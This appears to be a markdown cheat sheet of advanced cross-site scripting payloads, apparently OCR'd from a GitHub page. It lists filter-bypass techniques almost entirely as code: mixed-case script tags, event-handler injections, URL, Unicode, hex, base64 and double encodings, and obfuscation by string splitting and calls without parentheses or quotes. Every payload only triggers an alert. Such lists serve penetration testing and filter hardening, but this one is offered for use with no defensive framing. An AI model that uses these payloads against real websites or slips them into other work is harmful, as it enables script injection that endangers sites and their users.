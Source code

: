 ## Advanced XSS Payloads

### Filter Bypass Techniques

#### Mixed Case Bypass

```html
<ScRiPt>alert('XSS')</ScRiPt>
```

#### No Script Tags

```html
<img src="x" onerror="alert('XSS')">
<div onmouseover="alert('XSS')">hover me</div>
<body onload="alert('XSS')">
```

#### Encoding Bypass

```html
<!-- HTML Encoding -->
&lt;script&gt;alert('XSS')&lt;/script&gt;

<!-- URL Encoding -->
%3Cscript%3Ealert('XSS')%3C/script%3E

<!-- JavaScript Unicode Escape -->
\u003Cscript\u003Ealert('XSS')\u003C/script\u003E

<!-- Hex Encoding -->
<script>eval('\x61\x6c\x65\x72\x74\x28\x27\x58\x53\x53\x27\x29')</script>

<!-- Base64 -->
<script>eval(atob('YWxlcnQoJ1hTUycpOw=='))</script>

<!-- Double Encoding -->
%253Cscript%253Ealert('XSS')%253C/script%253E
```

#### Script Splitting / Obfuscation

```html
<!-- String splitting -->
<script>a='ale';b='rt';c='(1)';eval(a+b+c)</script>

<!-- Concatenation -->
<script>document['write']('<img src=x onerror=alert(1)>')</script>

<!-- No parentheses -->
<script>onerror=alert;throw 1</script>

<!-- No quotes -->
<script>alert`XSS`</script>
```
